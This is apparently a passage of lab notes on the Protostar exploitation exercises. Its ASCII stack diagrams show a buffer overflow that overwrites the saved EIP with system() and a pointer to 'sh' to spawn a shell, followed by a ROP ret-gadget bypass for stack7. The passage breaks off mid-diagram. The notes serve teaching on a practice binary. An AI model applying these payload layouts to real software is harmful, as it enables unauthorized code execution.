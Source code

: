 ```
(BEFORE)
LOW
|  buf[0-3]                 <--- STACK POINTER
|  buf[4-7]
|  buf[8-11]
|  ...
|  buf[60-63]
|  SAVED EBP                (Saved EBP original frame)
|  SAVED_EIP                (Saved EIP original frame) 
|  main() stuff
|  ...
|  ...
HIGH

(AFTER) (breakpoint at the `leave` instruction)

LOW
|  AAAA                     (Start filling buffer....)
|  AAAA
|  AAAA
|  ...
|  AAAA
|  AAAA                     (Saved EBP original frame)
|  system() = 0xb7ecffb0    (Saved EIP original frame) <--- STACK POINTER 
|  SAVED EIP = BBBB                (Anything)         
|  pointer to "sh\0" =0xb7fb821d    <--- Argument passed to system()
|  ...
| stuff()
HIGH
```

###  ROP` (Return Oriented Programming -> opt/protostar/bin/stack7` )

A `ROP` jump consists of overwriting the SAVED EIP with the address of the `ret` instruction, the `ret` instruction will pop the stack and execute the following instruction (this way we can bypass the check on the SAVED EIP)

```
(BEFORE)
LOW
|  buf[0-3]                 <--- STACK POINTER
|  buf[4-7]
|  buf[8-11]
|  ...
|  buf[60-63]
|  SAVED EBP                (Saved EBP original frame)
|  SAVED_EIP                (Saved EIP original frame) 
|  main() stuff
|  ...
.
.
.
|
HIGH

(AFTER) breakpoint at the `leave` instruction

LOW
|  AAAA                     (Start filling buffer....)
|  AAAA
|  AAAA
|  ...
|  AAAA
```